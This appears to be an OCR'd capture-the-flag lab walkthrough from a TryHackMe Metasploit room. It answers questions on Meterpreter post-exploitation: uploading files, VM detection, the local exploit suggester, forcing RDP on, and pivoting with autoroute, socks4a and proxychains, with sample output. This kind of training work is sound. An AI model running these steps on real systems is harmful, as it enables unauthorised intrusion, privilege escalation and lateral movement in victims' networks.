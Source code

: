 How about finding more information out about the system itself? This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?

What command do we run to transfer files to our victim computer? `upload`

How about if we want to run a Metasploit module? `run`

A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim? `ipconfig`

Let’s go ahead and run a few post modules from Metasploit. First, let’s run the command run post/windows/gather/checkvm. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.

```bash
meterpreter > run post/windows/gather/checkvm [] Checking if DARK-PC is a Virtual Machine ... [] This is a Xen Virtual Machine
```

Next, let’s try: run post/multi/recon/local_exploit_suggester. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room [Ice](https://tryhackme.com/room/ice). Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: run post/windows/manage/enable_rdp

```bash
meterpreter > run post/windows/manage/enable_rdp [-] Insufficient privileges, Remote Desktop Service was not modified [*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20210120142448_default_10.10 .107 .52_host.windows.cle_297076.txt
```

One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?

### Task 7 Makin’ Cisco Proud

Let’s go ahead and run the command run autoroute -h, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer. run autoroute -s 172.18.1.0 -n 255.255.255.0 Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command search server/socks4a. What is the full path to the socks4a auxiliary module? auxiliary/server/socks4a Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains? proxychains
